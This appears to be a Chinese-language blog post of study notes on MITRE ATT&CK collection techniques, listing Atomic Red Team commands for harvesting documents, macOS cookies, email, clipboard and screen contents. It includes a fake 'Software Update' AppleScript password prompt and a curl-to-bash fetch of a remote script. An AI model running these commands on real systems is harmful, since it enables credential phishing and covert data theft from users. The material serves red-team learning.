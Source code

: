 ```yaml
---
layout: post
title: 跟着ATT&CK学安全之collection
excerpt: "跟着ATT&CK学安全之collection"
categories: [ATT&CK]
comments: true
---
```

#### T1123 - Audio Capture
##### 使用AudioDeviceCmdlets
github地址:`https://github.com/frgnca/AudioDeviceCmdlets`

打开powershell,在source目录下运行`Install-Module -Name AudioDeviceCmdlets`

#### T1119 - Automated Collection

##### Automated Collection PowerShell
在powershell下收集doc文件到指定目录下
```bash
Get-ChildItem -Recurse -Include *.doc | % {Copy-Item $_.FullName -destination c:\temp}
```
##### Recon information for export with Command Prompt
通过bash收集一些系统信息
```bash
sc query type=service > %TEMP%\T1119_1.txt
doskey /history > %TEMP%\T1119_2.txt
wmic process list > %TEMP%\T1119_3.txt
tree C:\AtomicRedTeam\atomics > %TEMP%\T1119_4.txt
```
清除
```
del %TEMP%\T1119_1.txt
del %TEMP%\T1119_2.txt
del %TEMP%\T1119_3.txt
del %TEMP%\T1119_4.txt
```
还有一些bash的脚本,没有技术含量,在此不再列举
#### T1005 - Data from Local System
平台:macOS
```
cd ~/Library/Cookies
grep -q "#{search_string}" "Cookies.binarycookies"
```
### T1113 - Screen Capture
###### 测试1 X Windows Capture
```
xwd -root -out #{output_file}
xwud -in #{output_file}
```
因该可以
###### 测试2 Import
```
import -window root
```
应该可以
### T1114 - Email Collection
红队可以从用户系统中获取包含电子邮件数据的文件，例如Outlook存储或缓存文件.pst和.ost。还可以利用用户的凭据并直接与Exchange服务器进行交互，以从网络内部获取信息.或者访问面向外部的Exchange服务或Office 365，以使用凭据或访问令牌访问电子邮件,MailSniper这个工具可用于在Microsoft Exchange环境中的电子邮件中搜索特定术语（密码，内部情报，网络体系结构信息等）。它可以用作非管理用户来搜索自己的电子邮件，也可以用作管理员来搜索域中每个用户的邮箱。

红队还可能滥用电子邮件转发规则来监视受害者的活动.组织内的任何用户或管理员（或具有有效凭据的对手）都可以创建规则收件箱规则
，以自动将所有接收到的邮件转发给另一个收件人，根据发件人将电子邮件转发到其他位置
###### 测试1 T1114 Email Collection with PowerShell
```
powershell -executionpolicy bypass -command $PathToAtomicsFolder\T1114\Get-Inbox.ps1 -file #{output_file}
```
应该可以

## macos

## T1560.001 - Archive via Utility

红队使用第三方提供的加密或者压缩工具来进行数据封存，demo如下

###### Demo1 使用zip

```
zip #{output_file} #{input_files}
```

###### Demo2 使用gzip

```
test -e #{input_file} && gzip -k #{input_file} || (echo '#{input_content}' >> #{input_file}; gzip -k #{input_file})
```

Demo3 使用tar

```
tar -cvzf #{output_file} #{input_file_folder}
```

## T1115 - Clipboard Data

红队可以收集剪切板的数据，Demo如下

###### Demo1 通过命令收集剪切板的数据

```
echo ifconfig | pbcopy
$(pbpaste)
```

## T1056.002 - GUI Input Capture

红队可以制作一个伪装的GUI来诱导用户输入凭证，Demo如下

###### Demo1 AppleScript - Prompt User for Password

```
osascript -e 'tell app "System Preferences" to activate' -e 'tell app "System Preferences" to activate' -e 'tell app "System Preferences" to display dialog "Software Update requires that you type your password to apply changes." & return & return  default answer "" with icon 1 with hidden answer with title "Software Update"'
```

PS:这个很有意思

## T1074.001 - Local Data Staging

红队可以分阶段的传输数据，Demo如下

Demo1

```
curl -s https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074.001/src/Discovery.sh | bash -s > #{output_file}
```

## T1113 - Screen Capture

红队可以利用屏幕录制来收集信息，通过系统自带的工具就可以实现，例如`CopyFromScreen`, `xwd`, 和 `screencapture`，Demo如下

###### Demo1 screencapture

```
screencapture #{output_file}
```

###### Demo2 screencapture 静默运行

```
screencapture -x #{output_file}
```



